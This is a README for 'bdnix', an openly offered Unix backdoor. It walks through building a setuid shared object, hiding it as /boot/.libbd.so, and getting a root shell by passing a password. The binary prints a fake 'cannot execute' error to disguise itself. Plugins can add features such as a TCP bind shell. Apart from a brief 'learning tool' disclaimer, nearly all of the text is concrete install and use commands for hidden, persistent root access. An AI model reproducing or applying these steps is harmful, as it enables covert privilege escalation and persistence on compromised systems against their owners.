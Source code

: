  <pre>
 ___ ___  _  _ _____  __
 | _ )   \| \| |_ _\ \/ /
 | _ \ |) | .` || | >  < 
 |___/___/|_|\_|___/_/\_\
                         
Trivial userspace backdoor for Unix
Emanuele Paiano - nixw0rm@gmail.com

</pre>

<h3>This is a learning tool, so use it ONLY on your home systems (like 
Desktop PC or Raspberry Pi). I'm not responsable for abuses. 
Use it at your risk!  </h3>                         

------------------
 GETTING STARTED
------------------

1) Open root terminal in current directory and go into bdnix folder
  <pre>
   # cd /path/bdnix
   </pre>
2) From root run 'make' to build binary file
  <pre>
   # make
   </pre>
3) copy created file (i.e. libbd.so) with -p option to a hidden location like /bin, /etc,
<pre>
   # cp -p libbd.so /boot/.libbd.so
   # chmod +sx /boot/.libbd.so
   </pre>       
   and setuid file (chmod +x).


4) logout from server and log in again with unprivileged user. 


5) Run binary with joshua to enable backdoor
<pre>
   $ /boot/.libbd.so joshua /bin/sh

   if you see '#' then.. you are root! :)
   </pre>

6) if you run without joshua password, you can read a (fake) error:
<pre>
   /bin/sh: cannot execute binary file
   </pre>

---------------------
 CUSTOMIZE PASSWORD
---------------------

Opening settings.h you can change default password "joshua" (can you remember WOPR?):
<pre>
        #define ARG1 "joshua"
        </pre>
we can change it to "chips"
<pre>
        #define ARG1 "chips"
</pre>
Now recompiling (read above) and running with new password:
<pre>
        $ /boot/.libbd.so chips /bin/sh
        #
</pre>
If we have rootshell, it works! :)


------------------
 ENABLING PLUGINS
------------------
Plugins are .h file in plugins/ folders. By plugins you can add code portions and
add new functionaties to bdnix (i.e. binding shell on TCP port, loading kernel module, etc).
To enable a plugin:

1) Open settings.h include file and search for options like:
<pre><code>
        /* PLUGINS */

        /* enable rootshell */
        #define SHELL 1
        </code></pre>       
2) Change 1 to enable, or 0 to disable code.

Example. If you have rootshell disabled and myplugin enabled:

        /* enable rootshell */
        #define SHELL 0
        
        /* my plugin */
        #define MYPLUGIN 1
        
Your backdoor run MYPLUGIN code and ignore rootshell. You can enable more plugins together: 
all enabled plugins run in sequential mode. 

For adding or writing custom plugin, read WRITING A PLUGIN.


-------------------
 WRITING A PLUGIN
-------------------
1) If you need write plugin, you must create .h file into plugin using next template:

        int <PLUGIN_NAME>_init()
        {
          //code plugin
        }

   replacing <PLUGIN_NAME> with your plugin's name and write you code inside function. 

2) Open bdcode.c and find this code into main():

    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    
   and edit previos code in this:
   
    #if SHELL == 1
      shell_init(argv[2]);
    #endif
    #if <PLUGIN_NAME> == 1
      <PLUGIN_NAME>_init();
    #endif

   removing <PLUGIN_NAME> with you plugin's name.

   TIPS EXAMPLE: You can start to write you plugin editing RAW plugin.



----------
 LICENSE
----------
This code is released under GNU/GPL3 terms, read COPYING for info.
